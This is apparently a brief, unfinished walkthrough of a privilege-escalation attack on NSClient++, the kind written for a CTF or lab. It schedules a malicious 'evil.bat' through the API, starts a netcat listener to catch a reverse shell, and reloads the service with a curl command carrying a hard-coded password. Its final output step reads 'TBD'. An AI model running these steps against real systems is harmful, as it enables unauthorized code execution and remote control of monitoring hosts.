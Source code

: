 - 1. Activate scheduler and external scripts via API
- 2. Settings > external scripts > scripts > /evil + "command" : "c:\temp\evil.bat"
- 3. Settings > scheduler > schedules > /evil + "command" : "evil"
- 4. Settings > scheduler > schedules > /evil + "interval" : "1m"
  
  
If you managed to get it all set up, listen on port 443:
```
sudo nc -lvnp 443
```
Reload NSClient++ via API:
```
curl -k -s -H 'password:ew2x6SsGTxjRwXOT' 'https://localhost:8443/core/reload'
```
Wait for about a minute...
```
TBD
```
